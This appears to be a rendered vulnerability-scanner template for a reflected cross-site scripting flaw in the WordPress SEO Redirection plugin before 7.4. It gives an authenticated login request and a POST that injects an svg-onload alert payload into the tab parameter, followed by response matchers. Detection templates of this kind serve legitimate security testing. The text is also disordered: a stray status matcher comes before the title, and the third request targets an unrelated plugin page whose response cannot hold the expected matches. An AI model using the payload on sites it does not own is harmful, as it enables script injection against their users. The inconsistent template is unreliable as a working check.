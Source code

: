 **Type - status**
- status
    1. 200

---
# WordPress SEO Redirection \<7.4 - Cross-Site Scripting
## Description
- WordPress SEO Redirection 7.4 does not escape the tab parameter before outputting it back in JavaScript code, leading to a reflected cross-site scripting vulnerability.

- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
POST /wp-admin/options-general.php?page=seo-redirection.php&tab=cutom HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

tab=%3C%2Fscript%3E%3Csvg%2Fonload%3Dalert%28%2FXSS%2F%29%3E

```
### Step - 3
```
GET /wp-admin/admin.php?page=wpda_duplicate_post_menu HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<svg/onload=alert(/XSS/)>
    2. settings_page_seo-redirection
- condition - and
